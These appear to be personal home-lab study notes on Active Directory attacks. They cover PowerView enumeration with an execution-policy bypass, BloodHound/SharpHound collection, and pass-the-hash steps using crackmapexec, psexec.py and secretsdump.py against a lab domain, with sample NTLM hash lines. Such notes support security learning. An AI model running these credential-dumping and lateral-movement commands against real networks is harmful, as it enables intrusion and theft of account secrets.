

**1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal W10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

on W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```


move file.zip first onto baremetal Desktop then to kali VM.

import data :: enjoy

## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**

`apt install crackmapexec`
`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1'`


`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam`



`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206`


### **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206`


### **NTLM hash Example:**

```Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: ```

```Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::```

```Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::```

***You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes***

---

## **References:**

```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
```
